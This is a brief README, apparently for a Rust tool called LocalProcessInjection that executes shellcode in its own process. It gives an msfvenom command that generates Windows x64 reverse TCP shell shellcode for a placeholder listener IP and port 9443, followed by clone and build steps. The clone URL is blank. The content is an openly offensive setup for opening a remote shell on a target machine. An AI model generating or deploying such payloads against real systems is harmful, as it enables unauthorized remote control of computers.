 # LocalProcessInjection
Executing Shellcode in Local Process 

msfvenom -p windows/x64/shell_reverse_tcp LHOST=Your_IP LPORT=9443 -f c -b \x00\x0a\x0d
git clone 
cd LocalProcessInjection/src/
cargo build --release


